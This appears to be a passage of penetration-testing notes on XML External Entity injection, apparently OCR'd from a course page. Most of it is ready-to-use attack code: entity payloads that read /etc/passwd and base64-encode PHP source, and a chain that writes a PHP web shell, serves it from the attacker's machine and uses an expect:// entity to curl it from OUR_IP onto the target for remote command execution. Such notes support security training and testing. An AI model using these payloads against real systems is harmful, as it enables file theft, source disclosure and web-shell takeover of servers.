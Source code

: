 ```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

![image.png](../Images/VWA_image15.png)

Note: If a file contains some of XML's special characters (e.g. `<`/`>`/`&`), it would break the external entity reference and not be used for the reference

### Using PHP Wrapper

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## **Remote Code Execution with XXE**

### PHP Expect Filter

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands.

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

Then, applying XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name>
</name>
<tel>
</tel>
<email>
	&company;
</email>
<message>
</message>
</root>
```
